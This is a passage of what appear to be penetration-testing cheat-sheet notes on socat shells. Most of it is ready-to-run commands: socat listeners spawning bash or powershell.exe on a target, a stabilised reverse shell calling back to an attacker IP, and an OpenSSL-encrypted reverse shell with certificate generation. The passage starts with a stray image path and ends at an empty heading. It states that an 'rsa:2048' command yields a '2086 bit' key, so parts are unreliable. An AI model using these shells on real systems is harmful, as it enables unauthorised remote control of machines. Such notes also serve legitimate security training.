 `socat TCP-L:<PORT> EXEC:"bash -li"`

Socat listener on a Windows target:

`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

Connect from attacking machine:

`socat TCP:<TARGET-IP>:<PORT> -` 

#### Stabilise Linux shells

Listener syntax (needs socat installed/static binary to connect to):

```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```

*Equivalent to CTRL+Z `stty raw -echo; fg`*

Command to activate the listener:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
- stderr, makes sure that any error messages get shown in the shell (often a problem with 
non-interactive shells)
- sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill 
commands inside the shell
- setsid, creates the process in a new session
- sane, stabilises the terminal, attempting to "normalise" it.

*Add `-d -d` to the command to increase verbosity*

### Socat Encrypted Shells

Replace `TCP` and `TCP-L` with `OPENSSL` and `OPENSSL-LISTEN`

Generate a certificate to use encrypted shells:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

This creates a 2086 bit RSA key shell.key, and matching cert file shell.crt, self-signed 
and valid for 362 days.

*may need to increase RSA bit value*

Merge the key and cert files into  a `.pem` file: 

`cat shell.key shell.crt > shell.pem`

#### Reverse shell 

Set up a reverse listener on attacking machine:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

`verify=0` tells socat not to validate our cert is properly signed. The cert must be used 
on the listening device.

To connect back from target:

`socat OPENSSL:<ATTACKER-IP>:<PORT>,verify=0 EXEC:/bin/bash`

*check if "bash -li" works*

#### Bind shell

```